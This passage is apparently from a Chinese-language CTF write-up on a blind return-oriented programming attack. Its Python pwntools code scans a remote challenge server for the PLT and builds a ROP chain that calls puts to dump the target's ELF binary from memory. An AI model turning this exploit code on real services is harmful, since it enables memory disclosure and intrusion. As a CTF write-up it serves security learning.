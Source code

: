 ```python
        return True
    return False

# then we find the PLT
for addr in range(0x400300, 0x400800, 1):
    ph = remote("120.77.155.249",10001)
    print ph.recvuntil("me?\n")
    if get_plt_read(addr, ph):
        ph.close()
        break
    ph.close()
    log.info("now is "+hex(addr))
```
通过遍历，找到了puts函数的起始地址为
```
0x400560
```
于是我们最后写一个dump程序，把整个逻辑给dump下来
```python
def dump_data(addr, ph):
    exp = padding + p64(pop_rdi_ret) + p64(addr) + p64(puts_addr)
    ph.sendline(exp)
    msg = ph.recvall()
    log.info("recv msg " + base64.standard_b64encode(msg))
    msg = msg[:-1]
    return msg, len(msg)


data = ''
index = 0x400231
# fd = open("elf.bin",'wb')
fd = open("elf.bin",'ab')
while index < 0x601000:
    log.info("now we have index "+hex(index))
    ph = remote("120.77.155.249",10001)
    print ph.recvuntil("me?\n")
    msg, length = dump_data(index, ph)
    if index % 0x500 == 0:
        log.info("now index is " + hex(index))
        tmp = open("address.txt","w")
        tmp.write(str(index))
        tmp.close()
    if length == 0:
        data = '\x00'
        index += 1
    else: 
        data = msg
        index += length
    fd.write(data)
    fd.close()
    fd = open("elf.bin",'ab')

fd.write(data)
fd.close()
```
这里提一个小trick，因为elf文件里面存在很多`\x00`，用puts去读出的时候会阶段，所以这里如果我们发现读出的字符串长度为1的时候，直接给data赋值'\x00'
```python
    if length == 0:
        data = '\x00'
        index += 1
```
最后算是成功了，但是发现elf有点不完整（可能是因为index取值有问题？）所以运行不起来有点难受。但是主要的攻击手段也是有了的。此时我们知道了puts函数的地址，并且把puts函数的.plt.got表给dump下来了，并且题目已经给了提示是Ubuntu16.04。那么我们连leak的功夫都省去了，直接进行攻击即可。
